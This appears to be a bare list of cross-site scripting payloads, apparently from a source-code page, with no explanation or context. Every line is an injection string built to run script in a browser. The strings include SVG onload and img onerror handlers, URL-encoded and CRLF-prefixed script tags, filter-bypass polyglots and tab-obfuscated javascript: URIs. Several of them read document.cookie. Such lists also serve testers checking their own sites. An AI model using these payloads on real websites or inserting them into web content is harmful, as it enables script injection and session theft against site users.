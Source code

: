 "'><svg/onload=confirm(666)>
onerror=alert();><script>alert();</script>
%3Cscript%3Ealert(document.cookie)%3C/script%20ByPass%3E
"><img/src/onerror=.1|alert`` class=d>
Hh'><script>alert(1)</script>
<style><img src="</style><img src=x onerror=javascript:alert(1)//">
<video src=1 onerror=alert(1)>
<% foo><x foo="%><script>javascript:alert(1)</script>">
~2; "%3Cscript%3Ealert(document.cookie)%3C/script%20ByPass%3E"
"/>"/><img src=xss onerror=alert(2)>
"><img src=x onerror=prompt(document.domain); title=x>
<image src/onerror=prompt(8)>
<script>alert(1)</script>.html
%0d%0a%20<script>alert(1)</script>
"></textarea><ScRiPt>prompt(1)</ScRiPt// "><iframe/onload=alert(1)// ”/>&_lt;_script>alert(1)&_lt;/scr_ipt&gt”/>
%0d%0a%20"><img src=x onerror=prompt(document.domain);>
%22%3E'><script>alert(2);</script>
<svg/onload=alert(1)>
"onclick=prompt(8)><svg/onload=prompt(8)>"@x.y
<textarea>jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e</textarea>
<img src/onerror=prompt(8)>
"]<img src=1 onerror=confirm(1)>
1&"><script>alert(1)</script>=1
">><marquee><img src=x onerror=confirm(1)></marquee>"
"><img src=data:, onerror=prompt(document.domain);>
<svg/onload=alert(1)>"@gmail.com
<script>throw onerror=alert,1</script>
"'><img src=q onerror=alert(1)>
%3Cscript%3Ealert(1)%3C/script%3E##1
"><<script>alert(document.cookie);//<</script>
>'"><script>alert(2);</script>
%E5%98%8D%E5%98%8A%20"><img src=q onerror=alert(1)>
?query="><img src=x onerror=prompt(document.domain);>
<img/src/onerror=alert&sol;**&sol;(3)>
anythinglr00</script><script>alert(document.domain)</script>uxldz
'--><img src=x onerror=prompt(document.domain);>" ></script><script>alert(1)</script>"><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
</h1><script>alert(1)</script><h1>
<details/open/ontoggle=alert()>
<svg/onload=alert(String.fromCharCode(88,83,83))>
<iframe src=j&Tab;a&Tab;v&Tab;a&Tab;s&Tab;c&Tab;r&Tab;i&Tab;p&Tab;t&Tab;:a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;%28&Tab;1&Tab;%29></iframe>
<script ,>alert()</script>
"><svg><img src=x onerror=prompt(document.domain);></svg>
<img/src/onerror=alert(`ibro`)>
"><script>alert(123)</script>
%3Csvg%20onload=alert(1)%3E
%0d%0a%20<script>prompt(document.domain)</script>
<svg></p><style><g title="</style><img src onerror=alert(document.domain)>">
%22%27%3E'><script>alert(2);</script>
</script><script>confirm(document.cookie)</script>
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e<img/src/onerror=alert/*1337*/(1)>